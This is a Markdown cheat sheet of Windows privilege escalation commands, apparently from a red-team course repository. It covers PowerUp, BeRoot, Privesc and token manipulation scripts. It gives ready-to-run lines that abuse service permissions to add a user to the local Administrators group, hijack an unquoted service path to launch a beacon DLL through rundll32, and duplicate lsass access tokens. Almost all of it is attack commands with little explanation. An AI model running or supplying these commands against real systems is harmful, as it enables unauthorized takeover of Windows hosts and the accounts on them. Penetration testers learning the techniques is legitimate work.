 # Script tools
### Always Focussing on Service issues✔
## 1-PowerUp
 **PowerUp**

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

 https://github.com/HarmJ0y/PowerUp
 
\
**Check for vulnerable programs and configs**
~~~
Invoke-AllChecks
~~~
\
**Exploit vulnerable service permissions (does not require touching disk)❤️**
~~~
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAINxxx\userxxxx /add"

Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
~~~
\
**Get services with unquoted paths and a space in their name.** 
~~~
Get-ServiceUnquoted -Verbose 

Unquoted paths should have two options: 
1-CanRestart: True To restart the service 
2-StartName: LocalSystem should be another account or services to Privilege Escalation 

~~~
\
**Exploit an unquoted service path vulnerability to spawn a beacon**
~~~
Get-ServiceUnquoted -Verbose

Get-ModifiableServiceFile -Verbose

Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'
~~~
\
**Restart the service to exploit (not always required)**
~~~
net.exe stop VulnerableSvc net.exe start VulnerableSvc
~~~
\
**Get services where the current user can write to its binary path or change arguments to the binary**
~~~
 Get-ModifiableServiceFile -Verbose
~~~
\
**Get the services whose configuration current user can modify.**  
 ~~~
Get-ModifiableService -Verbose
~~~
\
**Check localgroup admins**  
~~~
net localgroup Administrators
~~~

## 2-BeRoot
**BeRoot:** 
https://github.com/AlessandroZ/BeRoot 
~~~
.\beRoot.exe
~~~

## 3-Privesc
**Privesc:**
 https://github.com/enjoiz/Privesc 
~~~
. .\privesc.ps1
Invoke-PrivEsc
~~~

## 4-Scripts
\
**1-Creates processes with other users logon tokens**👀

~~~
Invoke-TokenManipulation
~~~
\
**2-Duplicates the Access token of lsass**
~~~
Enable-DuplicateToken.ps1
~~~
